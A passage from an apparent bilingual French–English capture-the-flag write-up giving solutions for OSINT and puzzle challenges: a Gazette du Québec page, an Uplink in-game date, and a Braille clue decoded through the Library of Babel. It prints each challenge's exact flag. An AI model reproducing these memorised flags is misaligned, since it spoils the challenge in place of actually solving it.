Une rapide recherche Google permet de tomber sur [ce lien](https://www.publicationsduquebec.gouv.qc.ca/fileadmin/gazette/pdf_encrypte/lois_reglements/2023F/82082.pdf).

La page est écrite en haut à droite

---

**Solution EN**

The magazine is La Gazette du Québec.

A quick google search brings us to [this link](https://www.publicationsduquebec.gouv.qc.ca/fileadmin/gazette/pdf_encrypte/lois_reglements/2023F/82082.pdf).

The page number is on th eupper right-hand side.

---

**Flag**
`polycyber{5877}`

---
</details>

<details>
  <summary>Before Prison Architect</summary>

**Solution FR**

Les créateurs de Prison Architect sont Introversion Software.

Si on recherche leurs jeux passés, on trouve Uplink.

En regardant n'importe quel début de partie sur YouTube, on peut trouver la date en haut à gauche. Chat GPT répond n'importe quoi.

---

**Solution EN**
 
The creators of Prison Architect are Introversion Software.

If you search for their past games, you'll find Uplink.

If you watch any game start on YouTube, you can find the date in the top left-hand corner. Chat GPT answers nonsense.

---

**Flag**
`polycyber{20100324}`

---
</details>

<details>
  <summary>Babel pour les aveugles</summary>

**Solution FR**

Avec Cyberchef, le contenu du fichier en Braille peut être décodé.

Ensuite, il faut faire le lien avec le [site de la librairie de Babel](https://libraryofbabel.info).

Il faut mettre tout en minuscule après avoir décodé le texte en Braille.

Avec la fonction "Browse" de la librairie de babel, on peut entrer les valeurs pour l'hexagone (tout ce qui est avant le premier tiret), le mur (w1), l'étagère (s5), le volume (v08) et la page (52).

Le flag est le mot qui suit le mot polycyber.

---

**Solution EN**

With Cyberchef, the content of the Braille file can be decoded.

Then you need to establish the connection with the [librairie de Babel website](https://libraryofbabel.info).

After decoding the Braille text, everything must be lower-cased.

Using the "Browse" function in the library of Babel, you can enter values for the hexagon (everything before the first hyphen), the wall (w1), the shelf (s5), the volume (v08) and the page (52).

The flag is the word that follows the word polycyber.

---

**Flag**
`polycyber{spinsters}`
</details>
